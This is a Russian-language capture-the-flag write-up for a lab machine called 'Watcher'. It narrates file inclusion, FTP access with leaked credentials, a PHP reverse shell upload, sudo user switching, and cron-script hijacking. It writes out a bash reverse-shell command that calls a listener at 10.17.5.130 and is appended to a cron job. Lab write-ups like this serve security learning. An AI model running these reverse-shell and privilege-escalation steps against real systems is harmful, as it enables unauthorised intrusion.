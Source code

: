 # Watcher WriteUp (Medium)✅

Перейдя по ip адресу, мы видим страницу с подставками (?) для посуды

<figure><img src="../.gitbook/assets/image (9) (2).png" alt=""><figcaption></figcaption></figure>

Проверив файл **robots.txt**, мы обнаруживаем 2 файла

<figure><img src="../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

В файле **flag\_1.txt** находится первый флаг🚩

<figure><img src="../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

Во втором файле находится записка, но мы не можем прочитать её содержимое, просто перейдя в него с помощью адресной строки

<figure><img src="../.gitbook/assets/image (6) (1).png" alt=""><figcaption></figcaption></figure>

Нажав на картинку на основной странице, в адресной строке появляется html-запрос, используя его, прочитаем содержимое файла **secret\_file\_do\_not\_read.txt**

<figure><img src="../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

В данной записке находится логин и пароль для подключения по протоколу ftp&#x20;

<figure><img src="../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

Используя логин и пароль из записки, подключаемся к машине и скачиваем файл **flag\_2.txt**

<figure><img src="../.gitbook/assets/image (4) (4).png" alt=""><figcaption></figcaption></figure>

Выводим содержимое данного файла и получаем второй флаг🚩

<figure><img src="../.gitbook/assets/image (2) (4).png" alt=""><figcaption></figcaption></figure>

Далее нам понадобится **php\_reverse\_shell**. Используя **ftp** соединение, загружаем шелл в директорию **/files**, а затем, подключив слушатель, создаем **html-запрос**, в котором обращаемся к файлу с шеллом, указав полный путь до него&#x20;

<figure><img src="../.gitbook/assets/image (5).png" alt=""><figcaption><p>Отправить данный запрос нужно после поключения слушателя</p></figcaption></figure>

Перейдя в каталог **/var/www/html** мы можем найти папку **more\_secrets\_a9f10a**

<figure><img src="../.gitbook/assets/image (2) (5).png" alt=""><figcaption></figcaption></figure>

В ней и находится текстовый файл с третьим флагом🚩

<figure><img src="../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

Четвертый флаг находится в директории toby, но от лица www-data у нас нет прав, чтобы его узнать

<figure><img src="../.gitbook/assets/image (1) (4).png" alt=""><figcaption></figcaption></figure>

С помощью команды `sudo -l` мы выяснили, что от лица пользователя **toby** мы можем вывести содержимое файла, поэтому, используя команду `sudo -u toby /bin/bash` меняем пользователя на **toby** и выводим четвертый флаг🚩

<figure><img src="../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

Записка **note.txt** намекает нам, что в папке **jobs** находится скрипт, который выполняется в определенный период времени (с помощью инструмента **cron**)

<figure><img src="../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

Добавив в него строку с **bash\_reverse\_shell'ом** с помощью команды `echo 'bash -c "bash -i >& /dev/tcp/10.17.5.130/5555 0>&1''' >>` [`cow.sh`](https://vk.com/away.php?to=http%3A%2F%2Fcow.sh\&cc\_key=) и подключив слушатель, получаем оболочку уже от лица пользователя **mat**, в директории которого находится пятый флаг🚩

<figure><img src="../.gitbook/assets/image (22).png" alt=""><figcaption></figcaption></figure>

Проверив, что написано в записке, которая находится в той же директории, мы узнаем, что можем запустить некий **python-скрипт** от лица пользователя **will** без пароля&#x20;

<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

Этот скрипт берет некоторые данные из второго python-скрипта **cmd.py**

Содержимое файла **will\_script.py** мы изменить не можем, однако, стабилизировав оболочку, с помощью команды `nano cmd.py` мы имеем право добавить в данный скрипт очередной пейлоад, чтобы получить оболочку от лица пользователя **will**&#x20;

<figure><img src="../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

Заранее подключив слушатель, запускаем **will\_script.py** используя команду:

`sudo -u will /usr/bin/python3 /home/mat/scripts/will_script.py 1` ("1" нам нужна, потому что что скрипт cmd.py принимает значение 1-3 для правильной работы)&#x20;

И получаем шелл от лица пользователя will, а вместе с ним и шестой флаг 🚩

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>
